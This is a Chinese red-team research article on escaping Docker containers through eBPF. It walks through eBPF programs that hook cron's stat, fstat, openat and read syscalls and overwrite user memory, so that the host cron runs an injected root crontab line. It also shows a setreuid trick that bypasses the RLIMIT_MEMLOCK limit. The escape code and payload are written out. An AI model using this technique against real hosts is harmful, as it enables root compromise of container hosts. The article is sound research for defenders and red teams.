



# 云原生安全攻防｜使用eBPF逃逸容器技术分析与实践

作者：pass、neargle @ 腾讯安全平台部

# 前言

容器安全是一个庞大且牵涉极广的话题，而容器的安全隔离往往是一套纵深防御的体系，牵扯到AppArmor、Namespace、Capabilities、Cgroup、Seccomp等多项内核技术和特性，但安全却是一处薄弱则全盘皆输的局面，一个新的内核特性可能就会让看似无懈可击的防线存在突破口。随着云原生技术的快速发展，越来越多的容器运行时组件在新版本中会默认配置AppArmor策略，原本我们在《[红蓝对抗中的云原生漏洞挖掘及利用实录](https://mp.weixin.qq.com/s/Aq8RrH34PTkmF8lKzdY38g "红蓝对抗中的云原生漏洞挖掘及利用实录")》介绍的多种容器逃逸手法会逐渐失效；因此我们希望能碰撞出一些攻击手法，进而突破新版本容器环境的安全能力，并使用更契合容器集群的新方式把“任意文件写”转化为“远程代码执行”，从而提前布防新战场。

结合腾讯蓝军近几年在云原生安全上的积累以及我们在WHC2021上分享的关于《多租户容器集群权限提升的攻防对抗》的议题，本文将着重探讨内核特性eBPF对容器安全性的挑战和云原生攻防场景下的实践。

## 使用eBPF的容器逃逸技术

### eBPF简介

eBPF作为传统BPF的后继者，自内核3.17版本开始进入Linux内核。它提供了一种无需加载内核模块也能在内核里执行代码的功能，方式是在内核中实现了一个虚拟机，用于执行经过安全检查的字节码。

eBPF可以应用在安全、跟踪、性能分析、网络数据包处理、观测、监控等不同领域。

eBPF可以使用c语法的子集来编写，然后使用LLVM编译出eBPF字节码。

作为一个较新的内核特性，近些年来有许多利用这项新技术来解决一些安全问题的讨论和研究。使用eBPF我们可以使用诸如 `kprobe`、`tracepoint` 的跟踪技术，因此在防御的角度，可以用于实现HIDS、各种日志的监控等；而站在攻击者的角度，eBPF可以任意修改用户空间的内存，可以挂钩网络数据，这提供了很好的捷径用于编写`Rootkit` ，同时作为一个新的内核特性，也给了漏洞挖掘人员一个新攻击面。

本文不过多描述eBPF的核心概念、eBPF程序如何编写，展开讲会失去文章的重点，下面给出几个文章可以帮助读者快速了解eBPF和入门知识：

(1) What is eBPF\[1\]  
(2) BPF and XDP Reference Guide\[2\]  
(3) The art of writing eBPF programs: a primer.\[3\]

### 新的弱点

Docker使用AppArmor来进一步限制容器，保证隔离的安全，其中有一个让很多逃逸技术失效的限制是禁用了mount ([https://github.com/moby/moby/blob/4283e93e6431c5ff6d59aed2104f0942ae40c838/profiles/apparmor/template.go#L44)，](https://github.com/moby/moby/blob/4283e93e6431c5ff6d59aed2104f0942ae40c838/profiles/apparmor/template.go#L44)%EF%BC%8C) 换言之，即使攻击者获取了一个`CAP_SYS_ADMIN`权限的容器，他也很难用一些和file system有关的逃逸手法。那有没有什么不需要和各种伪文件系统交互的方法呢？有一些，比如如果有 `CAP_DAC_READ_SEARCH` 权限，那么可以使用系统调用来实现逃逸至宿主机的root file system。从内核4.17版本开始，可以通过`perf_event_open`来创建`kprobe`和`uprobe`，并且`tracepoint`子系统新增了一个raw\_tracepoint类型，该类型也是可以通过简单的系统调用来使用，结合eBPF的使用，这就给了攻击者可乘之机。

### 容器逃逸分析

要想使用eBPF，需要一些权限和挂载伪文件系统，下表展示了eBPF kprobe、tracepoint使用的条件：

| **特性/功能** | **要求** |
| --- | --- |
| bpf系统调用 | 拥有CAP\_SYS\_ADMIN; kernel 5.8开始拥有CAP\_SYS\_ADMIN或者CAP\_BPF |
| Unprivileged bpf - “socket filter” like | kernel.unprivileged\_bpf\_disabled为0或拥有上述权限 |
| perf\_event\_open系统调用 | 拥有CAP\_SYS\_ADMIN; kernel 5.8开始拥有CAP\_SYS\_ADMIN或者CAP\_PERFMON |
| kprobe | 需要使用tracefs; kernel 4.17后可用perf\_event\_open创建 |
| tracepoint | 需要使用tracefs |
| raw\_tracepoint | kernel 4.17后通过bpf调用BPF\_RAW\_TRACEPOINT\_OPEN即可 |

eBPF program作为附加在内核特定hook point的应用，在加载eBPF program时，并不会考虑被hook的进程是处于哪个namespace，又处于哪个cgroup，换句话说即使处在容器内，也依旧可以hook容器外的进程。

Linux kernel为eBPF程序提供了一系列固定的函数，这些函数被称为 `BPF-HELPERS` ，它们为eBPF程序提供了一定程度上的内核功能，可以使用 `man bpf-helpers` 来查看有哪些helper。而不同的eBPF program type能调用的helper也不同，关于tracing的helper里比较有意思的是下面几个：

（1）bpf\_probe\_read：安全地从内核空间读取数据  
（2）bpf\_probe\_write\_user：尝试以一种安全的方式向用户态空间写数据  
（3）bpf\_override\_return：用于 `error injection` ，可以用于修改kprobe监控的函数返回值

这些helper提供了读写整个机器上任意进程用户态空间的功能，同时提供了内核空间的读取数据功能，当攻击者能向内核加载eBPF程序，那么有许多种办法进行权限提升或者容器逃逸：

（1）读取内核空间里的敏感信息，或者hook关键系统调用的返回点，获取其他进程空间里的敏感信息  
（2）修改其他高权限进程里的数据，注入shellcode或者改变进程关键执行路径执行自己的命令  
（3）其他更有想象力的方法…

需要注意的是eBPF无法改变进入Syscall时的参数，但是可以改变用户态进程空间里的内存数据。

有了上述思路，shellcode暂且不论，有什么进程或服务是linux各个发行版最常见，并且可以拿来执行命令的呢？对，那就是安全和运维的老朋友 `cron` 了。 `cron` 作为计划任务用的linux最常见服务，可以定时执行任务，甚至可以指定用户，而且由于需要及时更新配置文件，调用相关文件syscall十分频繁，用eBPF来hook再简单不过。

`cron` 其实有许多不同的实现，因此若从蓝军角度来看需要针对不同的cron实现进行分析，这里挑选 `vixie-cron` ([https://github.com/vixie/cron)作为分析对象，](https://github.com/vixie/cron)%E4%BD%9C%E4%B8%BA%E5%88%86%E6%9E%90%E5%AF%B9%E8%B1%A1%EF%BC%8C) vixie-cron 是一个较多linux发行版使用的cron实现，像 `debian` 、 `centos` 都是用的这个实现，当然不同发行版也会有一些定制修改，这个在稍后分析中会简单提及。

### vixie-cron分析

`vixie-cron` 的整体逻辑比较简单，它有一个主循环，每次等待一段时间后都会执行任务并加载 cron 的一些配置文件，加载相关的配置文件的关键函数 `load_database`位于[https://github.com/vixie/cron/blob/690fc534c7316e2cf6ff16b8e83ba7734b5186d2/database.c#L47。](https://github.com/vixie/cron/blob/690fc534c7316e2cf6ff16b8e83ba7734b5186d2/database.c#L47%E3%80%82)

在正式读取配置之前，它会先获取一些文件和目录的文件信息：

1.  `load_database(cron_db *old_db) {`
2.      `// ...`
3.  `​`
4.      `/* before we start loading any data, do a stat on SPOOL_DIR`
5.       `* so that if anything changes as of this moment (i.e., before we've`
6.       `* cached any of the database), we'll see the changes next time.`
7.       `*/`
8.      `if (stat(SPOOL_DIR, &statbuf) < OK) {`
9.          `log_it("CRON", getpid(), "STAT FAILED", SPOOL_DIR);`
10.          `(void) exit(ERROR_EXIT);`
11.      `}`
12.    `// ...`

`SPOOL_DIR` 是一个宏，代表了存放crontabs文件的目录，默认为 `tabs` ，但在常见的发行版中对有关路径的宏做了定制，比如下面是debian关于路径的修改：

1.  `-#define CRONDIR        "/var/cron"`
2.  `+#define CRONDIR        "/var/spool/cron"`
3.   `#endif`
4.  `​`
5.               `/* SPOOLDIR is where the crontabs live.`
6.  `@@ -39,7 +39,7 @@`
7.                `* newer than they were last time around (or which`
8.                `* didn't exist last time around...)`
9.                `*/`
10.  `-#define SPOOL_DIR    "tabs"`
11.  `+#define SPOOL_DIR    "crontabs"`

因此 `SPOOL_DIR` 代表的就是我们熟悉的 `/var/spool/cron/crontabs` 目录。

然后会获取系统`crontab` 的信息：

1.      `if (stat(SYSCRONTAB, &syscron_stat) < OK)  // #define SYSCRONTAB    "/etc/crontab"`
2.          `syscron_stat.st_mtim = ts_zero;`

接下来是两个判断，如果判断通过，则进入处理系统 `crontab` 的函数：

1.      `if (TEQUAL(old_db->mtim, TMAX(statbuf.st_mtim, syscron_stat.st_mtim))) {`
2.          `Debug(DLOAD, ("[%ld] spool dir mtime unch, no load needed.\n",`
3.                    `(long)getpid()))`
4.          `return;`
5.      `}`
7.      `// ...`
9.      `if (!TEQUAL(syscron_stat.st_mtim, ts_zero))`
10.          `process_crontab("root", NULL, SYSCRONTAB, &syscron_stat,`
11.                  `&new_db, old_db);`

这两个判断比较有意思的地方是当老的配置的 `mtime` 和新的文件 `mtime` 不同即可进入处理流程，而新的文件 `mtime` 是 `SPOOL_DIR` 和 `SYSCRONTAB` 中的最大值。

从上述分析可以得出结论，当我们用eBPF程序去attach `stat` syscall返回的时候，如果能够修改返回的`struct statbuf`里的数据，就可以成功让 `vixie-cron`立刻去处理/etc/crontab。

最后在 `process_crontab` 里还有一次判断：

1.      `if (fstat(crontab_fd, statbuf) < OK) {`
2.          `log_it(fname, getpid(), "FSTAT FAILED", tabname);`
3.          `goto next_crontab;`
4.      `}`
5.      `// ...`
6.      `if (u != NULL) {`
7.          `/* if crontab has not changed since we last read it`
8.           `* in, then we can just use our existing entry.`
9.           `*/`
10.          `if (TEQUAL(u->mtim, statbuf->st_mtim)) {`
11.              `Debug(DLOAD, (" [no change, using old data]"))`
12.              `unlink_user(old_db, u);`
13.              `link_user(new_db, u);`
14.              `goto next_crontab;`
15.          `}`

只是这处判断用的是 fstat 。

### eBPF program编写

内核提供给用户使用的仅仅是 `bpf` 系统调用，因此有一系列工具来帮助使用者更方便简单地编写和使用eBPF。比较主流的两个前端是 `bcc` ([https://github.com/iovisor/bcc)和](https://github.com/iovisor/bcc)%E5%92%8C) `libbpf` ([https://github.com/libbpf/libbpf)。考虑到部署的方便性，如果使用bcc，它的大量依赖会影响蓝军实战中的可用性，所以本文在编写测试的时候使用的是libbpf，而且libbpf有社区提供的一个“脚手架”：https://github.com/libbpf/libbpf-bootstrap](https://github.com/libbpf/libbpf)%E3%80%82%E8%80%83%E8%99%91%E5%88%B0%E9%83%A8%E7%BD%B2%E7%9A%84%E6%96%B9%E4%BE%BF%E6%80%A7%EF%BC%8C%E5%A6%82%E6%9E%9C%E4%BD%BF%E7%94%A8bcc%EF%BC%8C%E5%AE%83%E7%9A%84%E5%A4%A7%E9%87%8F%E4%BE%9D%E8%B5%96%E4%BC%9A%E5%BD%B1%E5%93%8D%E8%93%9D%E5%86%9B%E5%AE%9E%E6%88%98%E4%B8%AD%E7%9A%84%E5%8F%AF%E7%94%A8%E6%80%A7%EF%BC%8C%E6%89%80%E4%BB%A5%E6%9C%AC%E6%96%87%E5%9C%A8%E7%BC%96%E5%86%99%E6%B5%8B%E8%AF%95%E7%9A%84%E6%97%B6%E5%80%99%E4%BD%BF%E7%94%A8%E7%9A%84%E6%98%AFlibbpf%EF%BC%8C%E8%80%8C%E4%B8%94libbpf%E6%9C%89%E7%A4%BE%E5%8C%BA%E6%8F%90%E4%BE%9B%E7%9A%84%E4%B8%80%E4%B8%AA%E2%80%9C%E8%84%9A%E6%89%8B%E6%9E%B6%E2%80%9D%EF%BC%9Ahttps://github.com/libbpf/libbpf-bootstrap) 。使用这个也可以非常方便快捷地开发出自己的eBPF program。

本文修改libbpf-bootstrap中的minimal示例程序来加载自己的eBPF program。接下来就让我们了解一下整个eBPF程序的完整流程。

1.  `#define BPF_NO_PRESERVE_ACCESS_INDEX`
3.  `#include "vmlinux.h"`
4.  `#include <bpf/bpf_helpers.h>`
5.  `#include <bpf/bpf_tracing.h>`
7.  `// ...`

libbpf-bootstrap自带的`vmlinux.h`是通过 bpftool 导出的内核数据结构的定义，这个文件主要是用于实现bpf的 CO-RE ，即编译一次到处执行，这里只是用到了 vmlinux.h 里带的内核数据结构的定义。

BPF\_NO\_PRESERVE\_ACCESS\_INDEX 实际上是 vmlinux.h 里的一个 BTF 引用开关，如果没有定义这个宏，那么在eBPF中任意引用了 vmlinux.h 中的数据结构定义都会在clang生成的eBPF object文件里留下记录，这样编译出来的eBPF程序如果在没有嵌入 BTF 类型信息的内核上是无法加载的，这里为了保证能稳定加载，所以关闭了clang生成 BTF 重定向信息的功能。

本文挑选的是使用 `raw_tracepoint` 来hook系统调用， `raw_tracepoint/sys_enter` 用于将eBPF程序attach到进入系统调用时：

1.  `// ...`
3.  `#define TARGET_NAME "cron"`
5.  `// ...`
7.  `SEC("raw_tracepoint/sys_enter")`
8.  `int raw_tp_sys_enter(struct bpf_raw_tracepoint_args *ctx)`
9.  `{`
10.      `unsigned long syscall_id = ctx->args[1];`
11.      `char comm[TASK_COMM_LEN];`
13.      `bpf_get_current_comm(&comm, sizeof(comm));`
15.      `// executable is not cron, return`
16.      `if (memcmp(comm, TARGET_NAME, sizeof(TARGET_NAME)))`
17.          `return 0;`
19.      `switch (syscall_id)`
20.      `{`
21.          `case 0:`
22.              `handle_enter_read(ctx);`
23.              `break;`
24.          `case 3:  // close`
25.              `handle_enter_close(ctx);`
26.              `break;`
27.          `case 4:`
28.              `handle_enter_stat(ctx);`
29.              `break;`
30.          `case 5:`
31.              `handle_enter_fstat(ctx);`
32.              `break;`
33.          `case 257:`
34.              `handle_enter_openat(ctx);`
35.              `break;`
36.          `default:`
37.              `return 0;`
38.      `}`
39.  `}`

这个eBPF程序比较简单，判断进程文件名是否是我们想要的进程文件，这里是 `cron` ，接下来根据系统调用进入不同的逻辑。

不过光hook进入syscall可不够，我们需要在syscall返回时马上修改已经返回至用户态空间的返回数据，比如说 `struct stat buf`，因此还要再来一个eBPF程序：

1.  `SEC("raw_tracepoint/sys_exit")`
2.  `int raw_tp_sys_exit(struct bpf_raw_tracepoint_args *ctx)`
3.  `{`
4.      `if (cron_pid == 0)`
5.          `return 0;`
7.      `int pid = bpf_get_current_pid_tgid() & 0xffffffff;`
8.      `if (pid != cron_pid)`
9.          `return 0;`
11.      `unsigned long id;`
12.      `struct pt_regs *regs = ctx->args[0];`
13.      `bpf_probe_read_kernel(&id, sizeof(id), ®s->orig_ax);`
15.      `switch (id)`
16.      `{`
17.          `case 0:`
18.              `handle_read(ctx);`
19.              `break;`
20.          `case 4:`
21.              `handle_stat();`
22.              `break;`
23.          `case 5:`
24.              `handle_fstat();`
25.              `break;`
26.          `case 257:`
27.              `handle_openat(ctx);`
28.              `break;`
29.          `default:`
30.              `return 0;`
31.      `}`
32.  `}`

这段程序和 `sys_enter` 的程序大致一样，只是从文件名换成了pid的判断，而pid的获取可以从 `sys_enter` 的时候获取到，另外此时已经处于执行完syscall的状态，因此 `AX` 寄存器里并不会存放syscall的id，但是 `pt_regs` 结构有个字段 `orig_ax` 存放了原始的syscall id，从这可以获取到。

在编写具体处理不同系统调用之前，我们需要了解到，eBPF程序是没有全局变量的，在较新版本的clang和内核上为什么可以使用c的全局变量语法呢，其实libbpf在背后会帮我们转换成 `BPF_MAP_TYPE_ARRAY` 类型的map，而eBPF的map是可以在不同eBPF程序间甚至不同进程间共享的。

处理stat系统调用相关代码：

1.  `static __inline int handle_enter_stat(struct bpf_raw_tracepoint_args *ctx)`
2.  `{`
3.      `struct pt_regs *regs;`
4.      `const char *pathname;`
5.      `char buf[64];`
6.  `​`
7.      `regs = (struct pt_regs *)ctx->args[0];`
8.      `bpf_probe_read(&pathname, sizeof(pathname), ®s->di);`
9.      `bpf_probe_read_str(buf, sizeof(buf), pathname);`
10.  `​`
11.      `if (memcmp(buf, CRONTAB, sizeof(CRONTAB)) && memcmp(buf, SPOOL_DIR, sizeof(SPOOL_DIR)))`
12.          `return 0;`
13.  `​`
14.      `if (cron_pid == 0)`
15.      `{`
16.          `cron_pid = bpf_get_current_pid_tgid() & 0xffffffff;`
17.      `}`
18.  `​`
19.      `memcpy(filename_saved, buf, 64);`
20.  `​`
21.      `bpf_probe_read(&statbuf_ptr, sizeof(statbuf_ptr), ®s->si);`
22.  `​`
23.      `return 0;`
24.  `}`

首先判断读取的文件是否为 `/etc/crontab` 或者`crontabs` ，这些路径是cron用于判断相关配置文件是否被修改了的路径，随后会保存pid、filename、用于接受文件信息的用户态buf指针到全局变量里。

处理stat系统调用返回的代码：

1.  `static __inline int handle_stat()`
2.  `{`
3.      `if (statbuf_ptr == 0)`
4.          `return 0;`
5.  `​`
6.      `bpf_printk("cron %d stat %s\n", cron_pid, filename_saved);`
7.  `​`
8.      `// conditions:`
9.      `// 1. !TEQUAL(old_db->mtim, TMAX(statbuf.st_mtim, syscron_stat.st_mtim))`
10.      `// 2. !TEQUAL(syscron_stat.st_mtim, ts_zero)`
11.  `​`
12.      `__kernel_ulong_t spool_st_mtime = 0;`
13.      `__kernel_ulong_t crontab_st_mtime = bpf_get_prandom_u32() % 0xfffff;`
14.  `​`
15.      `if (!memcmp(filename_saved, SPOOL_DIR, sizeof(SPOOL_DIR)))`
16.      `{`
17.          `bpf_probe_write_user(&statbuf_ptr->st_mtime, &spool_st_mtime, sizeof(spool_st_mtime));`
18.      `}`
19.  `​`
20.      `if (!memcmp(filename_saved, CRONTAB, sizeof(CRONTAB)))`
21.      `{`
22.          `bpf_probe_write_user(&statbuf_ptr->st_mtime, &crontab_st_mtime, sizeof(crontab_st_mtime));`
23.      `}`
24.  `​`
25.      `print_stat_result(statbuf_ptr);`
26.      `statbuf_ptr = 0;`
27.  `}`

在stat返回时，我们需要让上节提到的两个条件均通过，同时为了保证在eBPF程序detach后， `cron` 可以立刻更新为正常的配置，这里将 `SPOOL_DIR` 的 `mtime` 设为0， `CRONTAB` 设为一个随机的较小数值，这样`cron`记录的上一次修改时间就会是这个较小的时间，在下一次循环时会马上更新成原来的配置。

修改 `fstat`返回的代码与 `stat`大同小异，只是需要我们先hook `openat` 的返回处并保存打开的文件描述符的值：

1.  `static __inline void handle_openat(struct bpf_raw_tracepoint_args *ctx)`
2.  `{`
3.      `if (!memcmp(openat_filename_saved, CRONTAB, sizeof(CRONTAB)))`
4.      `{`
5.          `open_fd = ctx->args[1];`
6.          `bpf_printk("openat: %s, %d\n", openat_filename_saved, open_fd);`
7.          `openat_filename_saved[0] = '\0';`
8.      `}`
9.  `}`

然后当 `fstat` 获取该文件的信息时修改返回值即可。

最后就是在读取文件信息的时候修改处于进程内存里的返回数据，即hook `read` 系统调用返回的时候：

1.  `static __inline void handle_read(struct bpf_raw_tracepoint_args *ctx)`
2.  `{`
3.      `if (read_buf == 0)`
4.          `return;`
5.  `​`
6.      `ssize_t ret = ctx->args[1];`
7.      `if (ret <= 0)`
8.      `{`
9.          `read_buf = 0;`
10.          `return;`
11.      `}`
12.  `​`
13.      `if (ret < sizeof(PAYLOAD))`
14.      `{`
15.          `bpf_printk("PAYLOAD too long\n");`
16.  `​`
17.          `read_buf = 0;`
18.          `return;`
19.      `}`
20.  `​`
21.      `bpf_probe_write_user(read_buf, PAYLOAD, sizeof(PAYLOAD));`
22.      `read_buf = 0;`
23.  `}`

这里的payload就是任意的符合cron语法的规则，例如`* * * * * root /bin/bash -c 'date > /tmp/pwned' #`，由于 `vixie-cron`命令不支持多行，所以仅需在最后加个注释符 `#` 即可保证后面的命令被注释掉，时间选择每分钟都会触发，由于上面 `stat` 返回的是较小 `mtime` ，停止eBPF程序后也可以马上恢复成原来的cron规则。

编译后在拥有 `CAP_SYS_ADMIN`权限其他配置默认的root用户容器内运行一下，：

同时运行 `journalctl -f -u cron` 观察一下 `cron` 输出的日志：

命令成功执行：

### RLIMIT限制绕过

Linux kernel为了保证eBPF程序的安全性，在加载的时候添加了许多限制，包括指令长度、不能有循环、tail call嵌套有上限等等，还有资源上的限制，在kernel 5.11之前，kernel限制eBPF程序的内存占用使用的上限是`RLIMIT_MEMLOCK` 的值，这个值可能会非常小，比如在docker容器内默认为 `64KB` ，并且内核在计算eBPF程序内存使用量的时候是 `per-user` 模式，并非是每个进程单独计算，而是跟随 `fork` 来计算某个用户使用的总量。容器新启动的时候默认是root用户并且处于`initial user namespace`，而且宿主机的root用户往往会先占用一部分的影响 `memlock` 的内存，这样就会导致eBPF程序在容器内因为rlimit限制无法成功加载。

让我们来简要分析一下内核是如何计算eBPF占用内存的：

1.  `// https://elixir.bootlin.com/linux/v5.10.74/source/kernel/bpf/syscall.c#L1631`
2.  `int __bpf_prog_charge(struct user_struct *user, u32 pages)`
3.  `{`
4.      `unsigned long memlock_limit = rlimit(RLIMIT_MEMLOCK) >> PAGE_SHIFT;`
5.      `unsigned long user_bufs;`
6.  `​`
7.      `if (user) {`
8.          `user_bufs = atomic_long_add_return(pages, &user->locked_vm);`
9.          `if (user_bufs > memlock_limit) {`
10.              `atomic_long_sub(pages, &user->locked_vm);`
11.              `return -EPERM;`
12.          `}`
13.      `}`
14.  `​`
15.      `return 0;`
16.  `}`
17.  `​`
18.  `void __bpf_prog_uncharge(struct user_struct *user, u32 pages)`
19.  `{`
20.      `if (user)`
21.          `atomic_long_sub(pages, &user->locked_vm);`
22.  `}`

加载和卸载eBPF程序时使用上面两个函数进行内存消费的计算，可以看到，计算占用内存的字段是位于 `user_struct` 的 `locked_vm` 字段，而 `user_struct` 实际上内核代表用户credential结构 `struct cred` 的user字段：

1.  `struct cred {`
2.      `//...`
3.      `struct user_struct *user;    /* real user ID subscription */`
4.      `struct user_namespace *user_ns; /* user_ns the caps and keyrings are relative to. */`
5.      `struct group_info *group_info;    /* supplementary groups for euid/fsgid */`
6.      `/* RCU deletion */`
7.      `union {`
8.          `int non_rcu;            /* Can we skip RCU deletion? */`
9.          `struct rcu_head    rcu;        /* RCU deletion hook */`
10.      `};`
11.  `} __randomize_layout;`

linux在创建新进程时，仅会简单的调用 `copy_creds` （[https://elixir.bootlin.com/linux/v5.10.75/source/kernel/fork.c#L1981）,而](https://elixir.bootlin.com/linux/v5.10.75/source/kernel/fork.c#L1981%EF%BC%89,%E8%80%8C) `copy_creds`会调用 `prepare_creds` ，这个函数仅仅是给原来的 `struct user_struct` 添加了一个引用计数，并没有新分配一个 `user_struct` ，这样就实现了对单个用户的内存占用计算。

1.  `static inline struct user_struct *get_uid(struct user_struct *u)`
2.  `{`
3.      `refcount_inc(&u->__count);`
4.      `return u;`
5.  `}`
6.  `​`
7.  `struct cred *prepare_creds(void)`
8.  `{`
9.      `struct task_struct *task = current;`
10.      `const struct cred *old;`
11.      `struct cred *new;`
12.  `​`
13.      `// ...`
14.  `​`
15.      `old = task->cred;`
16.      `memcpy(new, old, sizeof(struct cred));`
17.  `​`
18.      `// ...`
19.      `get_uid(new->user);`
20.      `// ...`
21.  `}`

上面说到，eBPF限制内存使用是`per-user` 的，那么如果我们创建一个不同的user呢？进程的cred如果属于一个新的user，那么就会新建一个新的 `user_struct` ，此时 `locked_vm` 的值就会初始化为0。

由于内核根据uid来保存 `user_struct`，所以创建的user的uid不能为0，不然就会继续引用原来的root的`user_struct`，并且eBPF需要 `CAP_SYS_ADMIN` 权限，我们要让一个普通用户有这个权限有很多种办法：

(1) 设置加载eBPF程序文件的File Capabilities，创建新用户，切换到新用户执行设置好Cap的文件

(2) 在root用户情况下改变setuid，并且设置`SECBIT_KEEP_CAPS securebits`

(3) 在root用户情况下仅改变`real uid`

这里介绍第三种办法，因为实现起来是最简单的办法。

我们简要看下 `setreuid` 系统调用在什么情况下会改变 `user_struct` :

1.  `// https://elixir.bootlin.com/linux/v5.10.75/source/kernel/sys.c#L502`
2.  `long __sys_setreuid(uid_t ruid, uid_t euid)`
3.  `{`
4.      `// ...`
5.  `​`
6.    `kruid = make_kuid(ns, ruid);`
7.  `​`
8.    `// ...`
9.  `​`
10.      `if (ruid != (uid_t) -1) {`
11.          `new->uid = kruid;`
12.          `if (!uid_eq(old->uid, kruid) &&`
13.              `!uid_eq(old->euid, kruid) &&`
14.              `!ns_capable_setid(old->user_ns, CAP_SETUID))`
15.              `goto error;`
16.      `}`
17.  `​`
18.      `// ...`
19.  `​`
20.      `if (!uid_eq(new->uid, old->uid)) {`
21.          `retval = set_user(new);`
22.          `if (retval < 0)`
23.              `goto error;`
24.      `}`
25.      `// ...`
26.  `}`

当设置的ruid不等于之前的ruid就会设置新的 `user_struct` ，而由于没有设置其他的id比如 `euid` ，capabilities也不会被清空，参考capabilities manual：

> If one or more of the real, effective or saved set user IDs was previously 0, and as a result of the UID changes all of these IDs have a nonzero value, then all capabilities are cleared from the permitted, effective, and ambient capability sets.If one or more of the real, effective or saved set user IDs was previously 0, and as a result of the UID changes all of these IDs have a nonzero value, then all capabilities are cleared from the permitted, effective, and ambient capability sets.

翻译过来就是当ruid、euid、suid至少有一个为0，这些id都变成非0值时，会将permitted、effective、ambient集清空。

那么c语言的实现就很简单了：

1.      `int ret;`
2.      `if ((ret=setreuid(65535, -1)) != 0)`
3.      `{`
4.          `printf("setreuid failed: %d\n", ret);`
5.          `return 0;`
6.      `}`

在加载eBPF程序之前在用户态代码前加上这些代码就能绕过限制了。

从内核5.11开始，计算eBPF内存占用使用的是 `cgroup` 来计算，一般来说内存限制会变得很宽松，就不会遇到这种问题。

### AFW 到 RCE 新方法

控制服务器程序的配置、脚本等文件的内容进行任意代码执行是渗透和漏洞挖掘中常用的手法，从“任意文件写”提升到“任意代码执行”的利用手段也层出不穷，上述我们针对业界最常用到的计划任务组件 Cron 进行利用，实现了从容器到母机的任意代码执行（逃逸）。如果从上文读到这里，读者也能意识到，在容器场景里“写文件”的方式和方法将更加灵活，也因此，历史上我们常遇到的“crontab明明写进去了，但是shell一直不来”的这类情况也会更加普遍。而且，容器和Kubernetes安全的最佳实践建议我们应该减少节点和容器内的非必要组件，容器节点会尝试不再安装和运行 Cron 进程，最终母机节点里仅运行 kubelet 进程的情况是最理想的。种种现状，促使我们重新分析了 Cron 的现有实现，也开始思考云原生时代任意文件写的利用是否有新的TIPS。

#### Cron 的局限性

#### 不同的 Cron 实现

最直观的问题就是：在漏洞利用的时候，我们不清楚目标服务器的 `Cron` 是哪一个实现。除了上述提到的 `vixie-cron` ([https://github.com/vixie/cron)，还有两种](https://github.com/vixie/cron)%EF%BC%8C%E8%BF%98%E6%9C%89%E4%B8%A4%E7%A7%8D) Cron 的实现是非常普遍的：

1、busybox-cron ([https://git.busybox.net/busybox/tree/?h=1\_34\_stable](https://git.busybox.net/busybox/tree/?h=1_34_stable))

2、cronie ([https://github.com/cronie-crond/cronie](https://github.com/cronie-crond/cronie))

